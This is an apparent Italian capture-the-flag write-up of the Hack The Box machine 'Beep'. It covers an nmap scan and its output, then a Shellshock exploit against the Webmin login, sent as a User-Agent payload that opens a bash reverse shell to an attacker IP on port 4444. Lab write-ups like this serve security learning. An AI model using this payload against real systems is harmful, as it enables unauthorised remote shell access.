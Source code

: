 # Beep

## Reconnaissance

Per prima cosa eseguo una scansione iniziale con nmap.

```text
sudo nmap -sC -sV -O -oA /usr/share/nmap/initial 10.10.10.75
```

* **-sC**: scipt nmap di default
* **-sV**: per rilevare la versione dei servizi
* **-O**: per rilevare il SO
* **-oA**: per stampare tutti i formati e salvarli nel file _nmap/initial_

Le porte aperte sono le seguenti:

* **Porta 22**: OpenSSH 4.3
* **Porta 25**: Postfix smtpd
* **Porta 80**: Apache 2.2.3
* **Porta 110**: Cyrus pop3d 2.3.7
* **Porta 111**: rpcbind
* **Porta 143**: Cyrus imapd 2.3.7
* **Porta443**: Apache httpd 2.2.3 ((CentOS))
* **Porta993**: Cyrus imapd
* **Porta995**: Cyrus pop3d
* **Porta3306**: MySQL
* **Porta4445**: upnotifyp?
* **Porta10000**: MiniServ 1.570 (Webmin httpd)

```text
Nmap scan report for 10.10.10.7
Host is up (0.074s latency).
Not shown: 988 closed tcp ports (reset)
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey:
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_pop3-capabilities: UIDL TOP USER LOGIN-DELAY(0) EXPIRE(NEVER) STLS PIPELINING IMPLEMENTATION(Cyrus POP3 server v2) AUTH-RESP-CODE RESP-CODES APOP
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
111/tcp   open  rpcbind    2 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            875/udp   status
|_  100024  1            878/tcp   status
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_imap-capabilities: X-NETSCAPE LISTEXT SORT=MODSEQ OK NO RIGHTS=kxte IMAP4 ATOMIC URLAUTHA0001 THREAD=ORDEREDSUBJECT RENAME UIDPLUS THREAD=REFERENCES CATENATE BINARY IDLE STARTTLS CONDSTORE MAILBOX-REFERRALS ACL NAMESPACE ANNOTATEMORE LIST-SUBSCRIBED ID Completed UNSELECT MULTIAPPEND CHILDREN SORT LITERAL+ IMAP4rev1 QUOTA
|_imap-ntlm-info: ERROR: Script execution failed (use -d to debug)
443/tcp   open  ssl/http   Apache httpd 2.2.3 ((CentOS))
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
|_http-server-header: Apache/2.2.3 (CentOS)
|_ssl-date: 2023-09-19T12:58:39+00:00; +1s from scanner time.
| http-robots.txt: 1 disallowed entry
|_/
|_http-title: Elastix - Login page
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_ssl-known-key: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
3306/tcp  open  mysql      MySQL (unauthorized)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
4445/tcp  open  upnotifyp?
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=9/19%OT=22%CT=1%CU=32140%PV=Y%DS=2%DC=I%G=Y%TM=65099B6
OS:A%P=x86_64-pc-linux-gnu)SEQ(SP=B7%GCD=1%ISR=C7%TI=Z%CI=Z%TS=A)OPS(O1=M54
OS:DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6
OS:=M54DST11)WIN(W1=16A0%W2=16A0%W3=16A0%W4=16A0%W5=16A0%W6=16A0)ECN(R=Y%DF
OS:=Y%T=40%W=16D0%O=M54DNNSNW7%CC=N%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%
OS:Q=)T2(R=N)T3(R=Y%DF=Y%T=40%W=16A0%S=O%A=S+%F=AS%O=M54DST11NW7%RD=0%Q=)T4
OS:(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%
OS:F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T6(R=N)T7(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%R
OS:IPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com
```

## Enumeration

In questa fase cerco di capire se qualcuno di questi servizi è configurato in modo errato o se presenta vulnerabilità note.

### 1) Porta 10000 MiniServ 1.570

Come prima cosa visito la pagina https://10.10.10.7:100000:

<p align="center">
  <img src="/Immagini/Linux-Box/Beep/beep-1.png" />
</p>

Facendo una rapida ricerca capisco che potrebbe essere presente la vulnerabilità shellshock.

Quindi intercetto la richiesta di login tramite _burp_ trasferendola al Repeater.
Successivamente, modifico il campo User Agent nel seguente modo:

```text
() { :;}; bash -i >& /dev/tcp/10.10.14.12/4444 0>&1
```

Avvio un listener in ascolto sulla porta 4444 e invio la richiesta da burp.

<p align="center">
  <img src="/Immagini/Linux-Box/Beep/beep-2.png" />
</p>

**Da qui recupero sia user.txt che root.txt.**

## Considerazioni finali

Di sicuro ci saranno altri modi per bucare questa macchina, ma non mi va di scoprirli!

<p align="center">
  <img src="/Immagini/Linux-Box/Beep/beep-3.gif" />
</p>
